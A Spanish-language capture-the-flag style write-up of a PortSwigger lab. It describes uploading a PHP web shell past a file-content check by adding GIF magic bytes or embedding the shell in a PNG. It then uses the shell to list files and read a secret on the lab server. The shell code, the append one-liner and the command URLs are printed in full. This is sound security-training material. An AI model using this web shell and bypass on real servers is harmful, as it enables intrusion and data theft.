 ```yaml
---
title: Remote code execution via polyglot web shell upload
description: Laboratorio de Portswigger sobre File Upload
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload
tags:
  - Portswigger Labs
  - File Upload
  - Remote code execution via polyglot web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, aunque `verifica` el `contenido` del `archivo` para `confirmar` que es una imagen `genuina`, aún es posible cargar y `ejecutar código` del `lado` del `servidor`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-6/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-6/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-6/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-6/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Lab-6/image_5.png)

`Subimos` el `archivo` nuevamente pero `capturamos` la `petición` con `Burspuite`, he probado a subir un archivo con `extensión .png` y con `Content-type: image:/png` pero nos sigue dando el mismo `error`

![](/assets/img/File-Upload-Lab-6/image_6.png)

Esto puede ser debido a los `magic bytes` que tienen las imágenes [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures), en este caso he añadido `GIF8;` lo cual me ha permitido `bypassear` la `validación`

![](/assets/img/File-Upload-Lab-6/image_7.png)

Otra forma de hacerlo sería `descargar` una `imagen` e `introducir` la `web shell` dentro. Al `capturar` la `petición` con `Burpsuite` se cambiaría la `extensión` de archivo a `.php` y se `enviaría`

```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Lab-6/image_8.png)

Si accedemos a `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que hemos logrado un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Lab-6/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Lab-6/image_10.png)

`Obtenemos` el `contenido` del archivo secret `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-6/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Lab-6/image_12.png)
